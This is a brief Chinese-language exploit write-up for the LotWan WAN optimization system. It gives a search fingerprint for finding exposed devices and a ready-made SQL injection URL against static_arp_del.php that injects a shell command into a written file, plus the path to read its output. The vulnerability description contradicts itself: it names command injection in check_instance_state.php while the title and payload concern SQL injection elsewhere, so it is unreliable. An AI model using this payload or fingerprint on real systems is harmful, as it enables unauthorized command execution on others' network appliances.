

# 华夏创新 LotWan广域网优化系统 static_arp_del.php SQL注入漏洞

## 漏洞描述

华夏创新 LotWan广域网优化系统check_instance_state.php文件参数 ins存在命令拼接，导致远程命令执行漏洞

## 漏洞影响

```
华夏创新 LotWan广域网优化系统
```

## 网络测绘

```
title="LotWan 广域网优化系统"
```

## 漏洞复现

登录页面


存在漏洞的文件为 static_arp_del.php, 通过union注入写入文件

```
/acc/bindipmac/static_arp_del.php?x=1&arpName=1' and 0 union select 1,'||id>cmd.txt||',3,4,5,6,7,8--
```

再访问 `/acc/bindipmac/cmd.txt`

